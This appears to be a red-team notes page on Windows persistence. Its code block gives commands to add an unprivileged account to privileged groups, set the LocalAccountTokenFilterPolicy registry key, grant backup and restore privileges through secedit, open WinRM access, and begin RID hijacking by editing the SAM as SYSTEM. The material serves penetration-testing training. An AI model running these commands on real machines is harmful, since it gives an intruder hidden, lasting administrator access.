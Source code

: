 # Persistence

{% embed url="https://hackmag.com/security/persistence-cheatsheet/" %}

{% hint style="info" %}
In many real-world penetration tests or red team engagements, persistence is not a part of the scope due to the risk of incomplete removal once the assessment is complete.
{% endhint %}

## Tampering with unprivileged accounts

{% code overflow="wrap" fullWidth="true" %}
```bash
# Assign Group Memberships
net localgroup administrators user0 /add
# If it looks to suspicious, use Backup Operators group which can read and write any file on the system
net localgroup "Backup Operators" user0 /add
# Since it is an unprivileged account, we cannot use RDP or evil-winrm by default
net localgroup "Remote Management Users" user0 /add
# If UAC disables Backup Operators to be used remotely, change this registry key (do it as Administrator)
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

# Special Privileges and Security Descriptors
https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
# Instead of assigning groups to a user, modify privileges
# First, we will export the current configuration to a temporary file
secedit /export /cfg config.inf
# Open the file and add our user to the privileges SeBackupPrivilege and SeRestorePrivilege (for example)
# We finally convert the .inf file into a .sdb file which is then used to load the configuration back into the system
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
# To assign WinRM privs to a user, run this command on PS (GUI needed)
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
# Then add the username and allow Full Control
# As on the previous section, if UAC disables Backup Operators to be used remotely, change this registry key
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

# RID Hijacking (RID is an identifier, last bit of SID, Administrator RID = 500, and regular users usually have RID >= 1000)
# We need to access SAM using Regedit but only available to SYSTEM (not even Administrator can edit). To run Regedit as SYSTEM:
PsExec64.exe -i -s regedit
# Go to HKLM\SAM\SAM\Domains\Account\Users\ and select the folder of the user to become "Administrator" (if its RID is 1010 = 0x3F2)
# Note it is little-endian so bytes appear reverse. To enter 500 = 0x01F4 we will enter F4 01
```
{% endcode %}
